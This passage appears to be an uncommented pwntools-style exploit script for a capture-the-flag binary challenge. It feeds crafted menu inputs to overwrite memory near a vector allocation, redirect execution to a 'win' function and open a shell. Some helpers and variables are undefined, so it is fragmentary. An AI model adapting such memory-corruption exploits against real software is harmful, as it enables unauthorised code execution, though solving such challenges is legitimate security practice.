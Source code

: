 ```py

tmp = input("go??????????????????????????")
"""
gef> x/4gx 0x04c8860
0x4c8860 <T>:   0x00000000004db6c0      0x00000000004db6cc
0x4c8870 <T+16>:        0x00000000004db6d0      0x0000000000000000
"""
vec_new = 0x0405030  #void* (* const operator new(uint64_t))(std::size_t sz) = operator new(uint64_t)
win = 0x0401427
sl(b"4")
sleep(0.1)
sl(b"4")
sleep(0.1)
sl(b"4")
sleep(0.1)
sl(b"4")
sleep(0.1)
sl(b"4")
sleep(0.1)
sl(b"4")
sleep(0.1)
sl(b"4")
sleep(0.1)
paybyte(f"1\n4199463".encode())
sl(payload)
paybyte(f"1\n0".encode())
sl(payload)
paybyte(f"1\n4199463".encode())
sl(payload)
paybyte(f"4".encode())
sl(payload)
paybyte(f"1\n4199463".encode())
sl(payload)
paybyte(f"4".encode())
sl(payload)
paybyte(f"1\n4199463".encode())
sl(payload)
paybyte(f"4".encode())
sl(payload)
for i in range(qt_sz-3-8):
    #paybyte(f"1\n4199463".encode())
    paybyte(f"4\n".encode())
    sl(payload)

for i in range(100022-qt_sz-7-4):
    paybyte(f"1\n4660".encode())
    sl(payload)


vec_new = 0x00405050
sl(f"1\n{str(vec_new-8)}".encode())
sl(f"1\n{str(0)}".encode())
sl(f"1\n{str(vec_new)}".encode())
sl(f"1\n{str(0)}".encode())
sl(f"1\n{str(vec_new+16)}".encode())
sl(f"1\n{str(0)}".encode())
sl(f"1\n{str(0)}".encode())

shell()

```


